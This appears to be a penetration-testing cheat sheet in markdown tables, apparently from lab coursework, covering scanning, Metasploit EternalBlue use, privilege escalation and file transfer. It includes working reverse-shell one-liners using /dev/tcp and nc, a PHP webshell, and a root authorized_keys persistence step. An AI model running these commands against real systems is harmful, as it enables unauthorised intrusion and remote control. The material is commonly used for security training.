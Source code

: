 # infosec

## sheetcheat

### Service Scanning
| Description        | Command      |
| ------ | ----- |
| Show our IP address | ``ifconfig/ip a`` |
| Run nmap on an IP | `` nmap 10.129.42.253 `` |
| Run an nmap script scan on an IP | `` nmap -sV -sC -p- 10.129.42.253 `` |
| List various available nmap scripts | `` locate scripts/citrix	  `` |
| Run an nmap script on an IP | `` nmap --script smb-os-discovery.nse -p445 10.10.10.40 `` |
| Grab banner of an open port | `` netcat 10.10.10.10 22 `` |
| List SMB Shares | `` smbclient -N -L \\\\10.129.42.253 `` |
| Connect to an SMB share | `` smbclient \\\\10.129.42.253\\users `` |
| Scan SNMP on an IP | `` snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0 `` |
| Brute force SNMP secret string | `` onesixtyone -c dict.txt 10.129.42.254 `` |

### Web Enumeration
| Description        | Command      |
| ------ | ----- |
| Run a directory scan on a website | `` gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt `` |
| Run a sub-domain scan on a website | `` gobuster dns -d example.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt `` |
| Grab website banner | `` curl -IL https://www.example.com `` |
| List details about the webserver/certificates | `` whatweb 10.10.10.121 `` |
| List potential directories in robots.txt | `` curl 10.10.10.121/robots.txt `` |

### Public exploit
| Description        | Command      |
| ------ | ----- |
| Search for public exploits for a web application	 | ``searchsploit openssh 7.2	 `` |
| MSF: Start the Metasploit Framework | `` msfconsole `` |
| MSF: Search for public exploits in MSF | `` search exploit eternalblue	 `` |
| MSF: Start using an MSF module | `` use exploit/windows/smb/ms17_010_psexec `` |
| MSF: Show required options for an MSF module | `` show options `` |
| MSF: Set a value for an MSF module option | `` set RHOSTS 10.10.10.40		 `` |
| MSF: Test if the target server is vulnerable | `` check	 `` |
| MSF: Run the exploit on the target server is vulnerable | `` exploit `` |

### Using Shells
| Description        | Command      |
| ------ | ----- |
| Start a nc listener on a local port | `` nc -lvnp 1234 `` |
| Send a reverse shell from the remote server | `` bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1' `` |
| Another command to send a reverse shell from the remote server | `` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f `` |
| Start a bind shell on the remote server | `` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f `` |
| Connect to a bind shell started on the remote server | `` nc 10.10.10.1 1234	 `` |
| Upgrade shell TTY (1) | ``python -c 'import pty; pty.spawn("/bin/bash")' `` |
| Upgrade shell TTY (2) | `` ctrl+z then stty raw -echo then fg then enter twice `` |
| Create a webshell php file | `` echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php `` |
| Execute a command on an uploaded webshell | `` curl http://SERVER_IP:PORT/shell.php?cmd=id `` |

### Privilege Escalation
| Description        | Command      |
| ------ | ----- |
| Run linpeas script to enumerate remote server | `` ./linpeas.sh	 `` |
| List available sudo privileges | `` sudo -l `` |
| Run a command with sudo | `` sudo -u user /bin/echo Hello World! `` |
| Switch to root user (if we have access to sudo su) | `` sudo su -	`` |
| Switch to a user (if we have access to sudo su) | `` sudo su user - `` |
| Create a new SSH key | `` ssh-keygen -f key	`` |
| Add the generated public key to the user | `` echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys `` |
| SSH to the server with the generated private key | `` ssh root@10.10.10.10 -i key	`` |

### Transferring Files
| Description        | Command      |
| ------ | ----- |
| Start a local webserver | `` python3 -m http.server 8000	`` |
| Download a file on the remote server from our local machine | `` wget http://10.10.14.1:8000/linpeas.sh	`` |
| Download a file on the remote server from our local machine | `` curl http://10.10.14.1:8000/linenum.sh -o linenum.sh	`` |
| Start a local webserver | `` python3 -m http.server 8000	`` |
| Transfer a file to the remote server with scp (requires SSH access) | `` scp linenum.sh user@remotehost:/tmp/linenum.sh	`` |
| Convert a file to base64 | `` base64 shell -w 0	`` |
| Convert a file from base64 back to its orig | `` echo f0VMR...SNIO...InmDwU | base64 -d > shell`` |
| Check the file's md5sum to ensure it converted correctly | `` md5sum shell `` |